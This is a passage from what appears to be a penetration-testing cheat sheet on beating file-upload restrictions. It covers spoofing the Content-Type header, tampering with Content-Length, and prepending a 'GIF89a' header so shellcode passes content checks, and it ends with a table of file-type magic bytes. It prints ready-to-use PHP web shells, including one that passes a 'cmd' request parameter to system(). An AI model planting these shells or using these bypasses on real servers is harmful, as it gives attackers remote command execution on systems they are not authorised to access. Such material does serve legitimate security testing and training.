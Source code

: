     ### Content-type bypass
    
    - Upload `file.php` and change the `Content-type: application/x-php` or `Content-Type : application/octet-stream`
    to `Content-type: image/png` or `Content-type: image/gif` or `Content-type: image/jpg`.
    
    ### Content-length bypass
    
    - edit manually and change it to check is server cuase a eroor or not
    - Small PHP Shell like:`(<?=`$_GET[x]`?>)`
    
    ### content-bypass shell
    
    - If they check the Content. Add the text "GIF89a;" before you shell-code. ( `Content-type: image/gif` )GIF89a is a GIF file header. If uploaded content is being scanned,
    sometimes the check can be fooled by putting this header item at the top of shellcode:
    
    `GIF89a; <?php system($_GET['cmd']); ?>`
    
    ### Magic Bytes - Numbers Bypass
    
    | File type | Typical extension | Hex digitsxx = variable | Ascii digits. = not an ascii char |
    | --- | --- | --- | --- |
    | Bitmap format | .bmp | 42 4d | BM |
    | FITS format | .fits | 53 49 4d 50 4c 45 | SIMPLE |
    | GIF format | .gif | 47 49 46 38 | GIF8 |
    | Graphics Kernel System | .gks | 47 4b 53 4d | GKSM |
    | IRIS rgb format | .rgb | 01 da | .. |
    | ITC (CMU WM) format | .itc | f1 00 40 bb | .... |
    | JPEG File Interchange Format | .jpg | ff d8 ff e0 | .... |
    | NIFF (Navy TIFF) | .nif | 49 49 4e 31 | IIN1 |
    | PM format | .pm | 56 49 45 57 | VIEW |
    | PNG format | .png | 89 50 4e 47 | .PNG |
    | Postscript format | .[e]ps | 25 21 | %! |
    | Sun Rasterfile | .ras | 59 a6 6a 95 | Y.j. |
    | Targa format | .tga | xx xx xx | ... |
    | TIFF format (Motorola - big endian) | .tif | 4d 4d 00 2a | MM.* |
    | TIFF format (Intel - little endian) | .tif | 49 49 2a 00 | II*. |
    | X11 Bitmap format | .xbm | xx xx |  |
    | XCF Gimp file structure | .xcf | 67 69 6d 70 20 78 63 66 20 76 | gimp xcf |
    | Xfig format | .fig | 23 46 49 47 | #FIG |
    | XPM format | .xpm | 2f 2a 20 58 50 4d 20 2a 2f | /* XPM */ |
    